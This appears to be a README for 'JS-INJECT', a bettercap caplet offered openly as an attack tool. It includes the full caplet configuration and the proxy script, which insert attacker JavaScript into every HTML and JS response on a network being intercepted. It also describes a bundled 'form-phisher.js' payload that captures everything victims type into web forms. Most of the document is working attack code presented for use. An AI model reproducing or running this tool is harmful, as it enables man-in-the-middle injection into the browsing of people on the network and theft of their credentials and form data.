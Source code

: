 ### JS-INJECT

A simple yet powerful proxy module that lets you inject your JavaScript payloads into any HTTP web page/application.

It prevents re-initiation of your script when it's already active in the DOM by declaring your payload as a unique function variable, and in some cases ignores the `X-Content-Type-Options: nosniff` header by checking for both `Content-Type` headers and file extensions.

All you have to do is set your payload path in the caplet file.

**caplets/jsinject/jsinject.cap**

```sh
# Set the path to your JavaScript payload
set jsinject.payload caplets/jsinject/payloads/form-phisher.js

set http.proxy.script caplets/jsinject/jsinject.js
set net.sniff.verbose false
net.sniff on
http.proxy on
```

**caplets/jsinject/jsinject.js**

```javascript
var session_id,
    payload,
    payload_path,
    payload_container = "" + 
    	"if (!self.{{session_id}}) {\n" + 
    		"var {{session_id}} = function() {\n" + 
    			"{{payload}}\n" + 
    		"}\n" + 
    		"{{session_id}}();\n" + 
    	"}\n"

var green = "\033[32m",
    bold  = "\033[1;37m",
    reset = "\033[0m"

function randomString(length) {
	var chars  = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz",
	    buffer = ""
	while (buffer.length < length) {
		index = parseInt( Math.random() * chars.length )
		buffer = buffer + chars.charAt(index)
	}
	return buffer
}

function configure() {
	payload_path = env("jsinject.payload").replace(/\s*/g, "")
	payload = readFile(payload_path)
	payload = payload_container.replace("{{payload}}", payload).replace(/\{\{session_id\}\}/g, session_id)
}

function onLoad() {
	session_id = randomString( 4 + parseInt( Math.random() * 16 ) )
	configure()
	log_info(green + "jsinject" + reset + " started injecting payload " + bold + payload_path + reset + " into HTTP traffic.")
	log_info(green + "jsinject" + reset + " session ID is " + bold + session_id + reset + ".")
}

function onResponse(req, res) {
	configure()
	if ( res.ContentType.match(/^text\/html/i) || req.Path.replace(/\?.*/i, "").match(/\.(htm|html)$/i) ) {
		res.ReadBody()
		log_debug("(" + green + "jsinject" + reset + ") attempting to inject HTML document in " + bold + req.Hostname + reset + " ...")
		res.Body = res.Body.replace(/<head>/i, "<head><script>" + payload + "</script>")
	}
	if ( res.ContentType.match(/^text\/javascript/i) || res.ContentType.match(/^application\/javascript/i) || req.Path.replace(/\?.*/i, "").match(/\.js$/i) ) {
		res.ReadBody()
		log_debug("(" + green + "jsinject" + reset + ") attempting to inject JS document in " + bold + req.Hostname + reset + " ...")
		res.Body = payload + res.Body
	}
}
```

<hr>

### Included payload

**form-phisher.js** is included, which will wait for the victim to press a key before binding to the enter key and mouse click/screen tap in order to phish all the fields. This can be useful when you want to sniff proxied forms that are submitted over HTTPS, don't use URL parameters, etc.

